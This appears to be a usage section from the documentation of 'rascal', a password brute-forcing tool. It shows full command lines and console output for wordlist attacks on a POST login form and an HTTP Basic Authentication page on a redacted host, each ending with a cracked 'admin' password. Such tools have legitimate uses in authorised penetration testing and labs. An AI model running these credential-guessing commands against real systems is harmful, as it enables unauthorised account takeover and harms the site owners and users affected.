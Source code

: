 ### POST

    C:\tools\> .\rascal.exe --post -u https://***.com/123123/login.php -w C:\tools\xato-10k.txt --username admin --username_field user_id --password_field passwd --success_text OK

        -- SETTINGS VERIFICATION --
        url: https://***.com/123123/login.php
        username: admin
        password list: C:\tools\xato-10k.txt
        username post form field: user_id
        password post form field: passwd
        success message: OK
        failure message: None

    Does this look OK? (Y/n)
    Prepared wordlist in memory with 10000 entries.
    [+] admin:1999

---

### Basic Authentication

    $ python3 rascal.py --basic -u http://***.com/123123/321 -w /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-1000.txt --username admin --failure_text 'Restricted Content'
    
            -- SETTINGS VERIFICATION --
            url: http://***.com/123123/321
            username: admin
            password list: /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-1000.txt
            success message: None
            failure message: Restricted Content
            custom user agent: None
            
    Does this look OK? (Y/n) 
    Prepared wordlist in memory with 1000 entries.
    
        ##########
        Sample from response headers.
        I.e., Build your failure string from header details:
        Basic realm="Restricted Content"
        ##########
        
    [+] admin:12345